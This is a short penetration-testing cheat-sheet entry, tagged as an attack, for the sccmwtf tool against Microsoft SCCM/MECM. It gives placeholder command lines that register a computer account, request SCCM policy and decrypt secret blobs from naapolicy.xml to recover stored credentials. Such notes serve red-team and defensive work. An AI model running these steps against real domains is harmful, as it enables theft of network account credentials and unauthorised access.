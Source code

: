 # sccmwtf

% sccm, mecm
#plateform/linux  #target/remote  #cat/ATTACK 


## desc
```
https://github.com/xpn/sccmwtf
```

## request 
prerequisites create a computer with addcomputer.py 
```bash
sccmwtf.py <computer_name> <computer_fqdn> <sccm_fqdn> '<domain_fqdn>\<computer_name>$' <computer_password>
```

## decrypt
grep CDATA naapolicy.xml
```powershell
python3 policysecretunobfuscate.py <blob_hex_1>
python3 policysecretunobfuscate.py <blob_hex_2>
``` 